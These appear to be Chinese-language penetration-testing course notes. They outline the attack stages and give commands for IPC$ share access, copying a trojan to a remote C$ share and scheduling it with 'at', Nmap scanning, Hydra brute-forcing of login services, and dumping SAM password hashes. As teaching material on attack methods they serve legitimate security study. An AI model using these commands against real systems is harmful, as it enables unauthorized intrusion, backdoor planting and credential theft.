


# 渗透测试

0、授权

1、信息收集

nslookup whois

2、扫描漏洞

namp = ip范围 端口 80（IIS，apache,什么网站）

scanpot

高级扫描：如IIS漏洞2003-IIS6.0 2008-IIS7.0

扫描网站漏洞

3、漏洞利用

4、提权（shell（命令行cmd）环境、桌面环境、最高权限）

5、毁尸灭迹

6、留后门

7、渗透测试报告

 

手工测试端口号开放：

telnet IP 地址 测试端口

**445漏洞利用之一IPC$**：

1、scanport 扫描445端口

2、进行暴力破解：NTscan

3、

 

```
net use f: \\10.1.1.2\ipc$ 密码 /user:用户


=================================================


net use f: \\10.1.1.2\share 密码 /user:用户


net use * /del


net use * /del


net use f: \\10.1.1.2\c$ 密码 /user:用户


=================================================
```

4、制作木马

5、植入木马（留后门）

 

```
copy d:\heihei.exe \\10.1.1.2\c$
```

6、设计计划任务自动执行木马：

```
net time \\10.1,1.2


at \\10.1.1.2 11:11 "c:\heihei.exe"
```

7、等待肉鸡上线

# 扫描技术、暴力破解工具

# 扫描技术

主机探测与端口扫描

```
21           FTP


22           SSH


23           Telnet


25           SMTP


80           HTTP


443          HTTPS


1433         SQL Server


1521         Oracle


3306         MySQL


3389        RDP
```

 

Nmap-扫描之王

重要的常用参数

 

```
-sP        扫描主机是否在线（ping扫描）


-p         指定端口范围


-sV        服务版本探测


-O(大写)         启用操作系统探测


-A         全面扫描


-oN        保存txt
```

 

```
Nmap -sP 10.1.1.1/24   扫描10.1.1.0 整个网段


Nmap -p 21,23-25,3389, 10.1.1.1


Nmap -p 21,23 10.1.1.1 -sV  扫描21，23的服务版本


Nmap -A 10.1.1.1    全面扫描


Nmap -O 10.1.1.1 扫描目标系统版本


Nmap -p 21,23 10.1.1.1 -oN d:\result.txt 
```

# Hydra 远程暴力破解

```
Hydra.exe -l a -p 123 10.1.1.1 telnet   


Hydra.exe -l a -P d:\password.txt 10.1.1.1 rdp


Hydra.exe -l a -P d:\password.txt 10.1.1.1 smb


Hydra.exe -l a -P d:\password.txt 10.1.1.1 ftp


Hydra.exe -l a -P d:\password.txt 10.1.1.1 ssh


Hydra.exe -l a -P d:\password.txt 10.1.1.1 mysql


 


Hydra.exe -L d:\user.txt -P d:\password.txt 10.1.1.1 mysql
```

5次shift破解系统密码

利用PE破解系统密码

远程爆破

nmap

NTscan

Hydra

本地破解：

Getpass 从内存中提取密码（win10之前的系统）

本地暴力破解：

Pwdump 提取sam中的hash值



手工将hash值存储到hash.txt中

使用saminside软件进行暴力破解



 

